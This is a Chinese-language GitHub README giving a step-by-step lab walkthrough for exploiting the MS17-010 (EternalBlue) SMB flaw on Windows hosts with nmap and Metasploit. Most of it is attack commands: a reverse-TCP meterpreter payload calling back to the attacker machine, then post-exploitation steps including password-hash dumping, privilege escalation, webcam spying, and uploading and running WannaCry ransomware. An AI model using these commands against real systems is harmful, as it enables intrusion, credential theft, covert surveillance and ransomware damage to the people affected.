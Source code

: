 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010`    定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
<pre>
msfconsole                                          /*进入msf>*/
version                              /*确保MS框架版本在 4.14.17以上,否则请apt-get install*/
search search ms17_010                          /*漏洞模块路径查询，搜索到了 4 个相关的插件:*/
auxiliary/admin/smb/ms17_010_command
auxiliary/scanner/smb/smb_ms17_010
exploit/windows/smb/ms17_010_eternalblue
exploit/windows/smb/ms17_010_psexec
</pre>
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules
<pre>
use exploit/windows/smb/ms17_010_eternalblue            /*调用攻击模块*/
show options                                            /*查看参数,并设置：*/
set RHOST 192.168.43.2                                /*设定攻击目标*/
show payloads                                        /*查看详细信息*/
set payload windows/x64/meterpreter/reverse_tcp        /*配置攻击载荷*/
set LHOST 192.168.43.1                              /*设置操作机地址,即kali本机地址*/
exploit                                          /*发起攻击,也可以用`run`*/
</pre>
出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` /查看系统信息 \
`webcam_list` /看看被控制的电脑有没有摄像头,如果有用`webcam_stream`命令可以打开摄像头监控 \
`route` /查看路由表 \
`screenshot` /桌面截图，很卡 \
`shell` /打开命令行，然后可以ipconfig/whoami/net user \
`ps` /看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
上传和执行勒索病毒

## 使用msf框架攻击win32
<pre>
use exploit/windows/smb/ms17_010_psexec
set RHOST 192.168.43.3
set payload windows/meterpreter/reverse_tcp
show options                                   /*查看设置好的参数*/
set LHOST 192.168.43.1
set SMBUser aleecy                          /*32位机的账号*/
set SMBPass 0                              /*32位机的密码*/
exploit
</pre>

## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
